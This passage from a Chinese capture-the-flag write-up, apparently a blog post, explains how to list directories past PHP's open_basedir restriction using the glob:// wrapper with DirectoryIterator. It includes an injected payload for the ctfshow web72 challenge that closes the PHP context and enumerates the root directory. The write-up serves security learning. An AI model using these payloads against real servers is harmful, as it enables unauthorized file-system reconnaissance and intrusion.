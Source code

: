 打印一下 var/www/html的内容



<img src="https://i-blog.csdnimg.cn/blog_migrate/6eee2b3772b76d2342de6335203c82da.png" alt="" style="max-height:119px; box-sizing:content-box;" />


发现生效了

但是如果只是单用 glob://无法绕过的

所以我们需要结合其他函数

#### 方式1——DirectoryIterator+glob://

```php
DirectoryIterator
就是一个接口 用户可以简单轻松的查看目录
```

```php
<?php
$c=$_GET[c];
$a=new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

然后我们输入 glob:///* 就可以列出根目录

但是 使用这个方法只能访问根目录和open_basedir受限的目录

所以对于 ctfshow web72 也可以使用这个方法访问根目录

```php
c=?><?php
$a=new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}exit();
?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e2582af56ee9804cc2f2c9e17111d45f.png" alt="" style="max-height:133px; box-sizing:content-box;" />


得到了flag的地址

回到这里

那我们就应该使用另一个方法

#### 方式2——opendir()+readdir()+glob://

```scss
opendir()打开目录句柄
 
readdir() 读取目录
```
